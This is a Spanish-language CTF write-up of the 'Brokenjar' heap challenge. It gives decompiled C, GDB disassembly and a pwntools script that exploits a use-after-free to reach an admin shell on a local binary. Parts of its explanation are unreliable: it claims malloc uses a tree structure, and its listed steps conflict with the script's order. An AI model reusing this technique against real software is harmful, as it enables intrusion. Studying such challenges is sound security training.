










# 8.8 Real 2022 - Brokenjar

Este challenge tiene tres formas de solucionarse, pero solo una es válida en caso de que no tengas acceso al binario y este esté bajo alguna conexión.

Comencemos ejecutando el binario para ver de qué trata. En este caso, ilustra un menú con 6 opciones a elegir:



Al crear un usuario, nos pregunta tres cosas: un índice, un tamaño y un username. El índice es para crear una lista de varios usuarios, cada uno con sus contraseñas correspondientes. El username no es más que un string simple, pero pedir el tamaño es algo sospechoso.

Si dedujiste bien, puedes intuir que el tamaño es la cantidad de bytes que pasarán de tu string username a la memoria. ¡Ojo con esto! Ya que es extraño que un programa te solicite la cantidad de bytes que quieras almacenar en memoria.

Hagamos un poco de ingeniería reversa al binario. Veamos qué hay en el main:
```

void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  do {
    option = 0;
    puts("U-jar");
    puts("1. add user");
    puts("2. add password");
    puts("3. read users and passwords");
    puts("4. delete users and passwords");
    puts("5. superb admin login");
    puts("6. exit");
    printf(">>> ");
    scanf("%d",&option);
    switch(option) {
    case 1:
      add_user();
      break;
    case 2:
      add_password();
      break;
    case 3:
      show_everything();
      break;
    case 4:
      delete_user_and_password();
      break;
    case 5:
      superb_admin();
      break;
    case 6:
      puts("goodbye");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```
Es probable que no aparezca al 100% como ahí, ya que cambié algunas instrucciones para que fuera más legible.

Nos damos cuenta de que solicita una opción por ```scanf``` y ejecuta una función en el ```switch-case``` según la opción del usuario. Más allá de eso, no hay nada más importante a destacar.

Veamos qué hay en la función ```add_user()```.

## add_user()


```
void add_user(void)

{
  uint uVar1;
  int is_equal;
  char *pcVar2;
  long in_FS_OFFSET;
  uint idx_candidate;
  uint size;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (index_space < 5) {
    puts("idx:");
    scanf("%1u",&idx_candidate);
    puts("size: ");
    scanf("%4u",&size);
    uVar1 = idx_candidate;
    if (idx_candidate < 5) {
      if (0x20 < size) {
        puts("size must below or equal to 0x20");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      pcVar2 = (char *)malloc((ulong)size);
      buffer[uVar1].username = pcVar2;
      buffer[idx_candidate].size_user = (ulong)size;
      printf("username: ");
      read(0,buffer[idx_candidate].username,buffer[idx_candidate].size_user);
      is_equal = strcmp(buffer[idx_candidate].username,"root");
      if (is_equal == 0) {
        puts("hehe not allowed");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      index_space = index_space + 1;
      puts("added user");
    }
    else {
      puts("index must be smaller or equal to 4");
    }
  }
  else {
    puts("no more data please");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Esta función solicita al usuario que ingrese 3 datos: el índice, un tamaño en bytes y un string. Lo interesante aquí es que el string de usuario se guarda con la ayuda de la función ```malloc()```, lo que significa que estamos trabajando con memoria dinámica en el Heap al crear nuevos usuarios. ¿Acaso este CTF será una explotación del heap?

Después de crear el usuario, se llama a la función ```strcmp()``` con los argumentos del string recién introducido y otro string "root". En caso de que no lo sepas, ```strcmp()``` es una función de C que compara dos strings y determina si son iguales o no. Si son iguales, retorna un 0. En resumen, esta función compara que tu string no sea "root". Si lo fuera, se llamaría a la syscall de ```exit()``` para interrumpir la ejecución del programa.

Entonces, entendemos que el superusuario que se solicita en la opción 5 es "root". El problema es que el programa no nos permite agregar este string de forma legal a la memoria, ya que si lo hacemos, el programa se cerrará con un ```exit()```.

Ahora veamos el código de ```add_password()```.
## add_password()
Si te das cuenta, el código de add_password() es idéntico al de add_user(), con la importante diferencia de que este no cuenta con un strcmp() que llame a un exit() en caso de que el string sea "root". Esto puede ser importante, ya que sería el único vector donde podríamos colar el string en la memoria.
## delete_user_and_password()

```
void delete_user_and_password(void)

{
  long in_FS_OFFSET;
  uint candidate;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("idx: ");
  scanf("%1u",&candidate);
  if (candidate < 5) {
    buffer[candidate].size_pass = 0;
    buffer[candidate].size_user = 0;
    free(buffer[candidate].username);
    free(buffer[candidate].password);
    puts("user deleted");
    index_space = index_space + -1;
  }
  else {
    puts("index must be smaller or equal to 9");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Este codigo es el mas importante de todos, ya que aqui reside el bug. Si te diste cuenta anteriormente, los strings son almacenados en el Heap y no en el Stack, esto lo sabemos porque se usa la funcion ```malloc()``` para el almacenamiento. En esta funcion, dicho bloque de memoria es liberado con la funcion ```free()```, pero no de la mejor manera.

## GDB
Veamos que sucede a bajo nivel usando GDB, probando strings, liberando y viendo que sucede en la memoria.
Es recomendable usar [gef](https://github.com/hugsy/gef) en estos casos, ya que nos permite ver todo mas claro:
```
disas main
Dump of assembler code for function main:
   0x0000000000001742 <+0>:	push   rbp
   0x0000000000001743 <+1>:	mov    rbp,rsp
   0x0000000000001746 <+4>:	sub    rsp,0x10
   0x000000000000174a <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000001753 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001757 <+21>:	xor    eax,eax
   0x0000000000001759 <+23>:	mov    rax,QWORD PTR [rip+0x28d0]        # 0x4030 <stdin@@GLIBC_2.2.5>
   0x0000000000001760 <+30>:	mov    esi,0x0
   0x0000000000001765 <+35>:	mov    rdi,rax
   0x0000000000001768 <+38>:	call   0x1060 <setbuf@plt>
   0x000000000000176d <+43>:	mov    rax,QWORD PTR [rip+0x28ac]        # 0x4020 <stdout@@GLIBC_2.2.5>
   0x0000000000001774 <+50>:	mov    esi,0x0
   0x0000000000001779 <+55>:	mov    rdi,rax
   0x000000000000177c <+58>:	call   0x1060 <setbuf@plt>
   0x0000000000001781 <+63>:	mov    rax,QWORD PTR [rip+0x28b8]        # 0x4040 <stderr@@GLIBC_2.2.5>
   0x0000000000001788 <+70>:	mov    esi,0x0
   0x000000000000178d <+75>:	mov    rdi,rax
   0x0000000000001790 <+78>:	call   0x1060 <setbuf@plt>
   0x0000000000001795 <+83>:	mov    DWORD PTR [rbp-0xc],0x0
   0x000000000000179c <+90>:	lea    rdi,[rip+0x9cb]        # 0x216e
   0x00000000000017a3 <+97>:	call   0x1040 <puts@plt>
   0x00000000000017a8 <+102>:	lea    rdi,[rip+0x9c5]        # 0x2174
   0x00000000000017af <+109>:	call   0x1040 <puts@plt>
   0x00000000000017b4 <+114>:	lea    rdi,[rip+0x9c5]        # 0x2180
   0x00000000000017bb <+121>:	call   0x1040 <puts@plt>
   0x00000000000017c0 <+126>:	lea    rdi,[rip+0x9c9]        # 0x2190
   0x00000000000017c7 <+133>:	call   0x1040 <puts@plt>
   0x00000000000017cc <+138>:	lea    rdi,[rip+0x9d9]        # 0x21ac
   0x00000000000017d3 <+145>:	call   0x1040 <puts@plt>
   0x00000000000017d8 <+150>:	lea    rdi,[rip+0x9eb]        # 0x21ca
   0x00000000000017df <+157>:	call   0x1040 <puts@plt>
   0x00000000000017e4 <+162>:	lea    rdi,[rip+0x9f5]        # 0x21e0
   0x00000000000017eb <+169>:	call   0x1040 <puts@plt>
   0x00000000000017f0 <+174>:	lea    rdi,[rip+0x9f1]        # 0x21e8
   0x00000000000017f7 <+181>:	mov    eax,0x0
   0x00000000000017fc <+186>:	call   0x1080 <printf@plt>
   0x0000000000001801 <+191>:	lea    rax,[rbp-0xc]
   0x0000000000001805 <+195>:	mov    rsi,rax
   0x0000000000001808 <+198>:	lea    rdi,[rip+0x9de]        # 0x21ed
   0x000000000000180f <+205>:	mov    eax,0x0
   0x0000000000001814 <+210>:	call   0x10c0 <__isoc99_scanf@plt>
   0x0000000000001819 <+215>:	mov    eax,DWORD PTR [rbp-0xc]
   0x000000000000181c <+218>:	cmp    eax,0x6
   0x000000000000181f <+221>:	ja     0x1795 <main+83>
   0x0000000000001825 <+227>:	mov    eax,eax
   0x0000000000001827 <+229>:	lea    rdx,[rax*4+0x0]
   0x000000000000182f <+237>:	lea    rax,[rip+0x9c2]        # 0x21f8
   0x0000000000001836 <+244>:	mov    eax,DWORD PTR [rdx+rax*1]
   0x0000000000001839 <+247>:	cdqe   
   0x000000000000183b <+249>:	lea    rdx,[rip+0x9b6]        # 0x21f8
   0x0000000000001842 <+256>:	add    rax,rdx
   0x0000000000001845 <+259>:	jmp    rax
   0x0000000000001847 <+261>:	mov    eax,0x0
   0x000000000000184c <+266>:	call   0x11d5 <add_user>
   0x0000000000001851 <+271>:	jmp    0x1899 <main+343>
   0x0000000000001853 <+273>:	mov    eax,0x0
   0x0000000000001858 <+278>:	call   0x1393 <add_password>
   0x000000000000185d <+283>:	jmp    0x1899 <main+343>
   0x000000000000185f <+285>:	mov    eax,0x0
   0x0000000000001864 <+290>:	call   0x1511 <show_everything>
   0x0000000000001869 <+295>:	jmp    0x1899 <main+343>
   0x000000000000186b <+297>:	mov    eax,0x0
   0x0000000000001870 <+302>:	call   0x15be <delete_user_and_password>
   0x0000000000001875 <+307>:	jmp    0x1899 <main+343>
   0x0000000000001877 <+309>:	mov    eax,0x0
   0x000000000000187c <+314>:	call   0x16b9 <superb_admin>
   0x0000000000001881 <+319>:	jmp    0x1899 <main+343>
   0x0000000000001883 <+321>:	lea    rdi,[rip+0x966]        # 0x21f0
   0x000000000000188a <+328>:	call   0x1040 <puts@plt>
   0x000000000000188f <+333>:	mov    edi,0x0
   0x0000000000001894 <+338>:	call   0x10d0 <exit@plt>
   0x0000000000001899 <+343>:	jmp    0x1795 <main+83>

```
Empezare creando dos breakpoints, uno en la direccion 0x1869 para poder revisar que es lo que hay en memoria, y otro en la direccion 0x16fc dentro de superb_admin, para ver tambien que es lo que se esta comparando al dar o no la shell.



Corremos el programa, creamos un usuario y luego revisamos en que direccion fue almacenado.



Utilizamos el comando ```search-pattern toor``` para ver donde se almaceno, luego imprimimos para ver si efectivamente esta ahi.



Tenemos la direccion!.

Ahora continuamos la ejecucion del programa para eliminarlo, queremos ver que sucede con ese espacio en memoria.



Fue eliminado!, pero no de la mejor forma ya que dejo un espacio vacio dentro de la variable y no valores basuras.
Esto nos da a entender que cualquier elemento que esta delante del elemento vacio ira bajando haciendo una especie de "underflow".

Veamos que sucede si le ingresamos un password a este espacio de memoria que ya fue liberado.




Tenemos "root"!, dentro de una variable en la que no se podia hacer esto, recordemos que dicho pedazo de codigo no permitia introducir el string "root".

## Shell

Solo queda reclamar nuestra shell.





"hello superb admin!"


## Ataque user-after-free.
Este ataque precisamente nos permite hacer lo que dice su nombre, usar un espacio de memoria incluse si esta fue previamente liberada con la funcion free. El problema radica en que el espacio de memoria quedo vacio y no con algun colchon para no ser sobreescrito.

Lo interesante es que nosotros pudimos sobreescribir la memoria creando una especie de "underflow" con el malloc que lo seguia, es decir su password.
Puedes seguir el siguiente link para saber mas al [respecto](https://encyclopedia.kaspersky.com/glossary/use-after-free/).

Expliquemos algo de ciencias computacionales. La funcion ```malloc()```, como explique mas arriba, es encargada de asignar espacio dinamico en la memoria Heap, lo interesante radica en que malloc usa la estructura de datos de **tree**, por ende, si tenemos dos datos dentro de la estructura, y queremos eliminar el index 0, el que lo sigue pasaria al index que fue eliminado.

## Exploit
Teniendo en cuenta esto, podemos hacer lo siguiente:
 - Crear un usuario en el index 0, con 4 bytes y escribir 4 caracteres de forma random, en mi caso le pondre "hola", 
 - Creamos una contraseña con exactamente los mismos valores, index 0, 4 bytes, pero con "root" en el string.
 - Eliminamos el usuario con la opcion 4.
 - Ejecutamos la opcion 5 y ya tendriamos el pwn.

El exploit es el siguiente:

```
from pwn import *

target = process("./brokenjar")

"""
Allocating 4 bytes with a string "toor". The string could be 
whatever as long as it has 4 bytes (4 chars).
"""
target.sendline("1")
target.sendline("0")
target.sendline("4")
target.sendline("toor")

"""
User after free is in this section.
"""
target.sendline("4")
target.sendline("0")

"""
Let's create a password with "root" as string into the index 0
"""
target.sendline("2")
target.sendline("0")
target.sendline("4")
target.sendline("root")

"""
Pwned
"""
target.sendline("5")
target.interactive()
```

## Disclaimer

Intente realizar este CTF en dos PC, por alguna razon funciona en uno con AMD, pero no en un Intel Pentium. En el caso del segundo este llena la memoria con otra direccion de memoria, o con instrucciones hardcodeadas de ASM.

Si alguien sabe porque sucede esto, favor de avisarme.

HaCk tHe PlAnEt!
